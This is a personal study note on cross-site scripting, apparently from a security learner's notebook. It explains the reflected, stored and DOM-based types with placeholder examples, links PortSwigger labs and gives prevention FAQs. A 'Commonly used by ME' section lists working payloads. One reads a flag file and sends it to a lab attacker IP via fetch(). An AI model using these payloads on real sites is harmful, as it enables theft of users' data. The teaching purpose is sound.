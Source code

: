 ```yaml
---
title: Cross-Site Scripting (XSS)
aliases:
  - Cross-Site Scripting (XSS)
description: Cross-site scripting (XSS) is an attack in which an attacker injects malicious executable scripts into the code of a trusted application or website.
tags:
  - XSS
  - Reflected
  - Stored
  - DOM-Based
  - Q/A
---
```

## What is cross-site scripting (XSS)?
---
Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

## What are the types of XSS attacks?
---
There are three main types of XSS attacks. These are:

- **Reflected XSS**, where the malicious script comes from the current HTTP request.
- **Stored XSS**, where the malicious script comes from the website's database.
- **DOM-based XSS**, where the vulnerability exists in client-side code rather than server-side code.
### **Reflected cross-site scripting**

Reflected XSS is the simplest variety of cross-site scripting. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Here is a simple example of a reflected XSS vulnerability:

```html
https://insecure-website.com/status?message=All+is+well. 

<p>Status: All is well.</p>
```

The application doesn't perform any other processing of the data, so an attacker can easily construct an attack like this:

```html
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script> 

<p>Status: <script>/* Bad stuff here... */</script></p>
```

If the user visits the URL constructed by the attacker, then the attacker's script executes in the user's browser, in the context of that user's session with the application. At that point, the script can carry out any action, and retrieve any data, to which the user has access.

For Hands-on Practice you can try to solve this **labs/ctfs**:
- [Portswigger LAB](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)  - WriteUp [[LAB 0.1|LAB 0.1]]

### **Stored cross-site scripting**

Stored XSS (also known as persistent or second-order XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

The data in question might be submitted to the application via HTTP requests; for example, comments on a blog post, user nicknames in a chat room, or contact details on a customer order. In other cases, the data might arrive from other untrusted sources; for example, a webmail application displaying messages received over SMTP, a marketing application displaying social media posts, or a network monitoring application displaying packet data from network traffic.

Here is a simple example of a stored XSS vulnerability. Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP request like the following:

```js
POST /post/comment HTTP/1.1 
Host: vulnerable-website.com 
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:

```js
<p>This post was extremely helpful.</p>
```

Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:

```js
<script>/* Bad stuff here... */</script>
```

Within the attacker's request, this comment would be URL-encoded as:

```js
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
```

Any user who visits the blog post will now receive the following within the application's response:

```js
<p><script>/* Bad stuff here... */</script></p>
```

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application.

For Hands-on Practice you can try to solve this **labs/ctfs**:
- [Portswigger LAB](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)  - WriteUp [[LAB 0.2|LAB 0.2]]

### **DOM-based cross-site scripting**

DOM-based XSS (also known as DOM XSS) arises when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

In the following example, an application uses some JavaScript to read the value from an input field and write that value to an element within the HTML:

```js
var search = document.getElementById('search').value; 
var results = document.getElementById('results'); 
results.innerHTML = 'You searched for: ' + search;
```

If the attacker can control the value of the input field, they can easily construct a malicious value that causes their own script to execute:

```html
You searched for: <img src=1 onerror='/* Bad stuff here... */'>
```

In a typical case, the input field would be populated from part of the HTTP request, such as a URL query string parameter, allowing the attacker to deliver an attack using a malicious URL, in the same manner as reflected XSS.

For more Information refer [[DOM-based]].

For Hands-on Practice you can try to solve this **labs/ctfs**:
- [Portswigger LAB](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink) - Write-up [[LAB 0.3|LAB 0.3]]
- [Portswigger LAB](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element) - Write-up [[LAB 0.4|LAB 0.4]]
- [Portswigger LAB](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink) - Write-up [[LAB 0.5]]
- [Portswigger LAB](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink) - Write-up [[LAB 0.6|LAB 0.6]]
## Crowd Sourcing
---
One of my favorite methods to find a huge number of valid XSS vulnerabilities is to visit http://www.reddit.com/r/xss. People will post on that sub-reddit the different XSS findings they have.

## OWASP Cheat Sheet
---
The other list I wish to mention that I’ve used often is OWASP Evasion Cheat Sheet. During my engagements, when I run into an encoding problem this is usually the first place I look. The cheat sheet can be found here: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet. The most common XSS protections I find are length issues and not allowing greater/less  han symbols. Luckily, the OWASP has any different examples to get around these issues.

## Commonly used by ME
---
>[!Payloads]
>`<img src=x onerror="fetch('http://10.11.116.53:8080')"/>`
>
>`<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://10.11.116.53:8080/?c=' + r)).catch(e => fetch('http://10.11.116.53:8080/?c=' + e))"/>`


## Commonly Asked Question
---
**How common are XSS vulnerabilities?** 
XSS vulnerabilities are very common, and XSS is probably the most frequently occurring web security vulnerability.

**How common are XSS attacks?** 
It is difficult to get reliable data about real-world XSS attacks, but it is probably less frequently exploited than other vulnerabilities.

**What is the difference between XSS and CSRF?** 
XSS involves causing a web site to return malicious JavaScript, while CSRF involves inducing a victim user to perform actions they do not intend to do.

**What is the difference between XSS and SQL injection?**
XSS is a client-side vulnerability that targets other application users, while SQL injection is a server-side vulnerability that targets the application's database.

**How do I prevent XSS in PHP?** 
Filter your inputs with a whitelist of allowed characters and use type hints or type casting. Escape your outputs with `htmlentities` and `ENT_QUOTES` for HTML contexts, or JavaScript Unicode escapes for JavaScript contexts.

**How do I prevent XSS in Java?** 
Filter your inputs with a whitelist of allowed characters and use a library such as Google Guava to HTML-encode your output for HTML contexts, or use JavaScript Unicode escapes for JavaScript contexts.

**What is the difference between reflected XSS and stored XSS?** 
Reflected XSS arises when an application takes some input from an HTTP request and embeds that input into the immediate response in an unsafe way. With stored XSS, the application instead stores the input and embeds it into a later response in an unsafe way.

**What is the difference between reflected XSS and self-XSS?** 
Self-XSS involves similar application behavior to regular reflected XSS, however it cannot be triggered in normal ways via a crafted URL or a cross-domain request. Instead, the vulnerability is only triggered if the victim themselves submits the XSS payload from their browser. Delivering a self-XSS attack normally involves socially engineering the victim to paste some attacker-supplied input into their browser. As such, it is normally considered to be a lame, low-impact issue.